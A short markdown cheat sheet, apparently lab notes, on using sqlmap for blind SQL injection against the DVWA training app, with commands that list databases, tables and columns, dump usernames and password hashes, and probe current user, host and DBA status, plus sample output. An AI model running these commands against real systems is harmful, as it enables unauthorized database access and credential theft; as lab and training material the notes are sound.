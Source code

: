## SQL-Injections 
[docs](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
#### SQL (Blind) Injection example  
Blind SQL Injection is often used to build the database schema, and get all the data in the database. This is done using brute force techniques and does require many requests to be sent to the server.  

`sqlmap -u "url-of-attack" --cookie="full cookie name"`  

ex.  
`sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie="security=low; PHPSESSID=aadfsfsasfsdffsffsdfs"`  
options--
`--dbs`  list databases  
`-D dvwa --tables`  list all tables in the dvwa database  
`-T users --column`  list all columns in table users  
`-C user,password --dump` gets all usernames and password hashes 

#### more examples  
`sqlmap -u "http://example.com/?id=1&Submit=Submit#" --cookie="PHPSESSID=sdfsfsfsfsfslfjafj; security=low" --current-user --hostname --current-db --is-dba --thread=6`  
  
#####gives this info  
* `Linux Ubuntu`  
* `Apache 2.4.7, PHP 5.5.9`  
* `MySQL >= 5.0.12`  
* `root@localhost`    
* `dvwa`    
* `ip-10-20-40-33`    
* `True`    

